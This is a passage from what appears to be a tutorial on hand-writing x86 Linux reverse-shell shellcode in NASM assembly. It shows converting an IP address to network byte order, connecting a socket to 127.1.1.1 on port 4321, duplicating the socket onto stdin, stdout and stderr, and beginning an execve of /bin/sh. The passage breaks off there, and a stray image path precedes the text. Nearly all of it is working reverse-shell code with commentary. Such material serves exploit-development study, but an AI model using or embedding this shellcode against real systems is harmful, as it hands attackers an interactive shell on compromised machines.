 Lets run it:
```
$ python ip-conv.py 127.1.1.1
ip_address: 127.1.1.1
network_byte_order: 0x0101017f
```
So ```sin_addr = 0x0101017f```.
Assembly Code
```nasm
		; EAX = 0x66 = sys_socketcall()
		; EBX = 0x3  = sys_connect()
		; ECX = pointer to arguments of sys_connect

		; connect(sockfd, *ptr->[2, 0xe110, 0x0101017f], 16)

		mov al, 0x66
		pop ebx			      ; EBX = 2 now
		
		push 0x0101017f		; 127.1.1.1 Network byte order
		push word 0xe110	; port 4321
		push word bx		  ; AF_INET = 2

		mov ecx, esp		  ; ecx now points to struct sockaddr
		push 0x10		      ; addrlen = 16
		push ecx		      ; pointer to sockaddr
		push esi		      ; sockfd

		mov ecx, esp		  ; pointer to sys_connect args
		inc ebx			      ; EBX  = 3 ; sys_connect

		int 0x80

		xchg ebx, esi		  ; old sockfd in ebx for dup2		
```

### Redirect stdin, stdout, stderr with SYS_DUP2
```nasm
		; Redirect stdin, stdout, stderr with sys_dup2
		; int dup2(int oldfd, int newfd);
		; sys_dup2 = 0x3f

		xor eax, eax
		xor ecx, ecx
		mov cl,0x2

		dup_loop:
			mov al, 0x3f
			int 0x80
			dec ecx
			jns dup_loop
```
### Exec /bin/sh with SYS_EXECVE
```nasm
		; execve /bin/sh
		
		xor eax, eax
		push eax		; push null onto stack
		mov al, 0x0b
		
		push 0x68732f2f
		push 0x6e69622f

		mov ebx, esp
		xor ecx, ecx
```